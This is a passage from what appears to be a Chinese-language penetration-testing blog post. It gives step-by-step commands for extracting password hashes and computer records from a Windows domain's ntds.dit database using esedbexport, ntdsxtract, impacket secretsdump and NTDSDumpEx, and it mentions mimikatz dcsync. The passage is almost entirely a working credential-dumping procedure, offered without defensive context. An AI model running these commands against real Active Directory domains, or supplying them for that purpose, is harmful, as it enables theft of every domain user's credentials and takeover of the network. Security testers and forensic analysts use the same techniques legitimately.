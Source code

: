 导出 ntds.dit

```
esedbexport -m tables ntds.dit
```

安装 ntdsxtract

```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build
python setup.py install
```

将 ntds.dit.export 和 SYSTEM 文件放入到 ntdsxtract 工具的文件夹中，然后导出哈希值，最后的结果将保存在 all_user.txt 里

```
python2 dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile atout --lmoutfile lmout | tee all_user.txt
```

> 如果提示 ImportError: No module named Crypto.Hash，直接 pip install pycryptodome 即可

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908171420.png)

ntds.dit 包含域内的所有信息，可以通过分析 ntds.dit 导出域内的计算机信息以及其他信息，最后结果将保存在 all_computers.csv 文件内

```
python2 dscomputers.py ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
```

### impacket

将 ntds.dit.export 和 SYSTEM 文件放入到 impacket 工具的文件夹中

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```

或者直接使用 python 执行 secretsdump.py 文件

```
cd ./build/scripts-3.9
python3 secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

### NTDSDump.exe

NTDSDumpEx.exe 可以进行导出哈希值的操作，下载地址：[https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases)

```
NTDSDumpEx -d ntds.dit -s system -o domain.txt
```

### mimikatz

mimikatz 有个 dcsync 的功能，可以利用卷影拷贝服务直接读取 ntds.dit 文件，不过需要管理员权限。
